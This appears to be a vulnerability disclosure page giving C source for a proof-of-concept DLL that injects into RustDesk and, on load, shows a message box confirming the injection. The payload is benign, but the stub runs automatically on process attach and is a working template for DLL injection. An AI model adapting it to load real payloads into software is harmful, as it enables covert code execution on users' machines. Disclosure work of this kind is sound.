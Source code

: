 ![](assets/attachment/8f907ffce2ea8ad7314796ee1b042f49.png)

The code (C/C++):

```c
/*

    Author:         Arthur Minasyan (B0lg0r0v)
    Date:           02.01.2025
    Description:    PoC for DLL Injection in 32 and 64-Bit PE of RustDesk

*/
#include <windows.h>

VOID MsgBoxPayload() {

    // Creating a semaphore for execution control
    HANDLE hSemaphore = CreateSemaphoreA(NULL, 10, 10, "Yolo");

    if (hSemaphore != NULL && GetLastError() == ERROR_ALREADY_EXISTS) {

        // Do nothing
    } else {
    
        // The actual payload
        MessageBoxA(NULL, "DLL Injection Successfully performed!", "DLL Injection", MB_OK | MB_ICONINFORMATION | MB_TOPMOST);
    
    }

}

BOOL APIENTRY DllMain (HMODULE hModule, DWORD  ul_reason_for_call, LPVOID lpReserved) {

    switch (ul_reason_for_call) {
    
	    case DLL_PROCESS_ATTACH:
	        MsgBoxPayload();
	        break;
	    case DLL_THREAD_ATTACH:
	    case DLL_THREAD_DETACH:
	    case DLL_PROCESS_DETACH:
	        break;
    
    }
    
    return TRUE;

}
```

